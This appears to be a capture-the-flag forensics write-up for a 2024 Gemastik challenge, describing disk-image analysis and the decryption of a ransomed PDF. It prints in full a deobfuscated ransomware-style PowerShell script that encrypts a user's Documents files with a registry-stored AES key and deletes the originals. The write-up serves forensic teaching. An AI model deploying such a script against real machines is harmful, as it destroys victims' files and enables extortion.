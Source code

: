 ```yaml
---
title: "Gemastik Qualification 2024 - Ruze Writeup"
pubDate: "2024-10-02"
description: 'Gemastik Qualification 2024 Ruze Forensic Write Up'
---
```


## Forensics/Ruze

(I use FTKImager to mount the image, use autopsy for analysis). Found encrypted pdf file, there are other two but its a video, so i think this is the flag

![{ECB4EDC1-F0AF-4AC0-932B-F8FF5B9FDE0F}](https://github.com/user-attachments/assets/ecc16bf9-1093-4c15-82b8-d622a9363e6c)

Found .bat containing base64 encoded strings, decode it we will get some script that will encrypt the data
![{8395F048-43EE-47F1-91C6-109A70851454}](https://github.com/user-attachments/assets/1a1a5332-5ebb-470e-a279-6a09b979f1a5)

Deobfuscated by ChatGPT
```powershell
function Encrypt-File {

    param (
        [string]$inputFilePath,
        [string]$outputFilePath,
        [string]$encryptionKey,
        [string]$initializationVector
    )

    # Convert the key and IV to byte arrays
    $keyBytes = [System.Text.Encoding]::UTF8.GetBytes($encryptionKey)
    $ivBytes =

[System.Text.Encoding]::UTF8.GetBytes($initializationVector)
    # Validate key and IV lengths
    if ($keyBytes.Length -ne 16 -and $keyBytes.Length -ne 24 -and
$keyBytes.Length -ne 32) {
        throw "ERROR: Invalid key length."
    }

    if ($ivBytes.Length -ne 16) {
        throw "ERROR: Invalid IV length."
    }

    # Create AES encryptor
    $aes = New-Object "System.Security.Cryptography.AesManaged"
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    # Read the input file bytes
    $fileBytes = [System.IO.File]::ReadAllBytes($inputFilePath)
    # Encrypt the file bytes
    $encryptor = $aes.CreateEncryptor()
    $encryptedBytes = $encryptor.TransformFinalBlock($fileBytes, 0, $fileBytes.Length)

    # Combine IV and encrypted data
    [byte[]]$finalBytes = $aes.IV + $encryptedBytes
    # Write the encrypted bytes to the output file
    [System.IO.File]::WriteAllBytes($outputFilePath, $finalBytes)
    # Clean up
    $aes.Dispose()

    Write-Output "Encrypted file: $outputFilePath"
    Remove-Item -Path $inputFilePath
}

# Define paths

$documentsPath = "C:\Users\$Env:UserName\Documents"
$encryptedFilesPath =
"C:\Users\$Env:UserName\AppData\Local\Microsoft\Garage"

# Create the directory for encrypted files if it doesn't exist
if (-not (Test-Path -Path $encryptedFilesPath)) {
    New-Item -Path $encryptedFilesPath -ItemType Directory -ErrorActionStop
}

# Get the encryption key and IV from the registry
$registryPath = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"
$encryptionKey = (Get-ItemProperty -Path $registryPath -Name "59e2beee1b06")."59e2beee1b06"
$initializationVector = (Get-ItemProperty -Path $registryPath -Name "076a2843f321")."076a2843f321"

# Encrypt each file in the Documents folder

Get-ChildItem -Path $documentsPath -File | ForEach-Object {
    $inputFilePath = $_.FullName
    $outputFilePath = Join-Path -Path $encryptedFilesPath -ChildPath$_.Name
    Encrypt-File -inputFilePath $inputFilePath -outputFilePath

$outputFilePath -encryptionKey $encryptionKey -initializationVector
$initializationVector
}

Write-Output "All files encrypted."
```

Notice that the key and IV Stored in here: `$registryPath = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"`
![{AA4917C7-E96E-4376-93DE-1A7437047C0A}](https://github.com/user-attachments/assets/f63087fb-bd29-4bc1-9e6c-06bfee89617a)

But if you read the hex of the encrypted file, you will see the iv is appended at the beginning of the file (just as the script tells us). So clean it. And decrypt it using the key and IV. I use Cyberchef bcs of skill issues at scripting.
![{556402A2-F4C3-4639-80CD-CE4580B5A856}](https://github.com/user-attachments/assets/7c39e95c-11cb-470b-92e2-7397928cbfe3)
![{352A97E1-E587-47EF-9ACE-9B9A761250DD}](https://github.com/user-attachments/assets/226674c2-db4f-402e-be8e-f48eccc7984c)

